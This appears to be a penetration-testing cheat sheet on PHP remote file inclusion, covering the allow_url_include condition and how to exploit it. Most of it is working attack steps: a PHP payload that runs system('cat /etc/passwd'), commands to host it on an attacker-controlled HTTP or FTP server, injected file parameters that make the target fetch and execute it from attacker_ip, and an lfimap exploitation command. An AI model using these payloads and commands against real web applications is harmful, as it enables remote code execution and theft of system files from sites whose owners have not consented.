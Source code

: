 # Remote File Inclusion

Vulnerability in web app code that allows execution of files that are hosted on remote servers. Application can be vulnerable if 'allow_url_include' and 'allow_url_fopen' are set to 1.

### Remote inclusion via HTTP 
Setup web server with exploit.php on attacking machine, and try to include it with HTTP protocol.  
Start web server with: `python3 -m http.server 80`

Exploit.php:
```php
<?php echo system("cat /etc/passwd"); ?>
```
Include exploit file for RCE: `http://server/site.php?file=http://attacker_ip/exploit.php`  

### Remote inclusion via FTP
Setup a FTP server with exploit.php on attacking machine, and try to include it with FTP protocol.

```php
<?php echo system("cat /etc/passwd"); ?>
```
Start FTP server with: `python -m pyftpdlib -p 21`  
Include remote 'exploit.php': `http://server/site.php?file=ftp://attacker_ip/exploit.php`

### Lfimap
Remote file inclusion can be tested and exploited with [lfimap](https://github.com/hansmach1ne/lfimap).

`python3 lfimap.py "http://server/site.php?file=PWN" -r --no-stop --lhost <IP>`
